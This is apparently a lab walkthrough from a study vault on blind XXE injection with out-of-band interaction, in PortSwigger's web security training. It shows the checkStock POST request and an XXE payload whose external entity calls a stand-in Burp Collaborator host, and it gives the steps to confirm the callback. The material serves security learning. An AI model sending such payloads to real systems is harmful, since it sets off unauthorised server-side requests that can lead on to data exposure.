

## Finding Vulnerable Parameters

### Identifying Parameters

The first step in performing an XXE injection attack is to identify parameters that interact with the backend and are vulnerable to XXE injection. In this lab, we will focus on the `checkStock` functionality.

### Analyzing the Request

Click on the `checkStock` button and observe the POST request sent to the server. Send this request to Burp Suite's Repeater for further analysis.

```http
POST /checkStock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 69

<product>
  <productId>123</productId>
  <storeId>456</storeId>
</product>
```

### Reviewing Parameters

In the Repeater, review the parameters that the `checkStock` function takes. You can see that it takes in XML input, which is parsed by the backend. This indicates that the parameter is likely vulnerable to XXE injection.

### Testing for XXE Injection

To test for XXE injection, we need to inject a payload that references an external entity. We will use Burp Collaborator to verify the presence of an XXE vulnerability.

### Constructing the Payload

We will construct a payload that references an external entity using Burp Collaborator's default public server.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://burpcollaborator.example.com/">
]>
<product>
  <productId>&xxe;</productId>
  <storeId>456</storeId>
</product>
```

### Sending the Payload

Send the constructed payload through Burp Suite's Repeater and observe the response.

```http
POST /checkStock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 152

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://burpcollaborator.example.com/">
]>
<product>
  <productId>&xxe;</productId>
  <storeId>456</storeId>
</product>
```

### Verifying the Response

If the server is vulnerable to XXE injection, Burp Collaborator will receive a request from the server, indicating that the payload was successfully executed.

### Sequence Diagram

Below is a sequence diagram illustrating the interaction between the client, server, and Burp Collaborator during the XXE injection attack.



---
<!-- nav -->
[[02-Exploiting XXE Injection|Exploiting XXE Injection]] | [[Web Security (PortSwigger)/08-XXE Injection/04-Lab 3 Blind XXE with out of band interaction/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/04-Lab 3 Blind XXE with out of band interaction/04-Hands-On Labs|Hands-On Labs]]
